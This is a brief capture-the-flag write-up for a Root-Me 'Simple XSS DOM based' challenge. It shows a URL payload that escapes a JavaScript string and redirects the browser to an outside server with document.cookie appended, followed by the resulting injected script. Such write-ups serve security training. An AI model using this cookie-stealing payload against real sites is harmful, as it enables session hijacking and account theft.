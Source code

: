 Simple XSS DOM based
```
http://challenge01.root-me.org/web-client/ch32/?number=123';document.location="https://my-server.com/?c=".concat(document.cookie);//
```

Resulting in:
```html
<script>
var random = Math.random() * (99);
var number = '123';
document.location='https://my-server.com?c='.concat(document.cookie);//';
.
.
.
</script>
```
